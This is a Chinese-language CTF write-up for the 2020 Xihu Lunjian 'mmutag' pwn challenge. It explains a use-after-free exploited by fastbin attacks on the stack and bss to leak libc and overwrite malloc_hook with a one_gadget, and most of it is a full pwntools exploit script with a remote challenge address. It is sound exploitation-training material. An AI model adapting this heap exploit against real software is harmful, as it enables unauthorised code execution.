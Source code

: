 ```yaml
---
layout: post
title: 西湖论剑2020
description: pwn-mmutag
categories: CTF/PWN


---
```




<!-- more -->

# 前言

这道题非常简单,第一种方法是fastbin_attack返回到栈中，然后泄漏canary和libc，然后覆盖返回地址为One_Gadget

我自己脑子抽风用了第二种方法，也是提升自己布置堆风水的能力

# 逻辑分析

1.这道题一开始给了我们一个gift:栈上的地址，分配堆的大小都是0x68,有个UAF的漏洞，但是只能布置10个堆，同时可以修改栈上的内容，并输出栈上的内容

![](/images/character8/mmutag1)

# 思路

首先这道题无论分配和释放都只能用到fastbin,所以只能用fastbin_attack,同时给了我们栈上的地址,且能输出栈上的内容,那毫无疑问是用fastbin_attack分配到栈中泄漏地址和ROP了,但同时我们可以注意到我们分配的栈上的地址是0x7f开头的,我们可以控制bss段heap的分配位置，如果我们能构成p64(0x7f)，也是能分配到bss上进行操作的,所以我运用了堆的思想又分配到了bss段中，这样可以多次使用fastbin_attack了，然后fastbin_attack分配到malloc_hook-0x23将malloc_hook修改为one_gadget然后getsehll

# 代码

```python
#https://github.com/matrix1001/welpwn

from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))

    debugg = 1
    logg = 0

    ctx.binary = './mmutag'
    ctx.remote_libc = './libc.so.6'
    
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.

    #ctx.breakpoints = [0x,0x]
    ctx.symbols = {'heap_pool':0x6020c0}
    #ctx.debug()
    if debugg:
    	rs()
    else:
		ctx.remote = ('183.129.189.62', 58604)
		rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    # rs('remote') # uncomment this for exploiting remote target

    libc = ctx.libc # ELF object of the corresponding libc.
    
    def Choice(num):
    	sla('choise:',num)
    def Add(idx,content=" "):
    	Choice(1)
    	sla('id:',idx)
    	sa('content',content)
    	ru('OK')
    '''
    def Edit(idx,content):
    	Choice(4)
    	sla('Index:',idx)
    	sla('Content:',content)
    '''
    def Del(idx,):
    	Choice(2)
    	sla('id',idx)
    	ru('OK')
    
    def Set_stack(content):
    	Choice(3)
    	s(content)
    	ru('Your')
    context.arch = "amd64"

    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    sla('please input you name:',payload)
    ru("this is your tag: 0x")
    
    stack_addr = r(12)
    stack_addr = int(stack_addr,16)
    success("stack_addr:0x%x",stack_addr)

    sleep(0.1)
    sla('choice',2)
    
    Add(3)
    Add(4)
 
    Del(3)
    Del(4)
    Del(3)

    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    Set_stack(payload)
    Add(5,p64(stack_addr-0x40))
    Add(6)
    Add(7,p64(0))

    Add(1,'a'*0x40+'b'*0x8)

    Set_stack('a'*0x20)
    ru('b'*0x8)
    libc_base = uu64(r(6))-0x20840
    success('libc:0x%x',libc_base)
    malloc_hook = libc_base + 0x3c4aed
    one_gadget = libc_base + 0xf0364

    Del(3)
    Del(4)
    Del(3)


    payload = p64(0x6020c5)
    Add(8,payload)
    Add(9)
    Add(10)

    Add(2,'\x00'+p64(0)*6)

    Del(10)
    Del(9)
    Del(10)
    Add(3,p64(malloc_hook))
    Add(4)
    Add(5)
    Add(6,'\x00'*3+p64(one_gadget)*8)
    success("one_gadget:0x%x",one_gadget)
    

    Set_stack('\x00'*0x20)
    success('one_gadget:0x%x',one_gadget)

    Choice(1)
    sla('id:',8)
    



    irt()
    # ipy() # if you have ipython, you can use this to check variables.



```

如果想看第一种方法的可以参考：https://bbs.pediy.com/thread-262526.htm
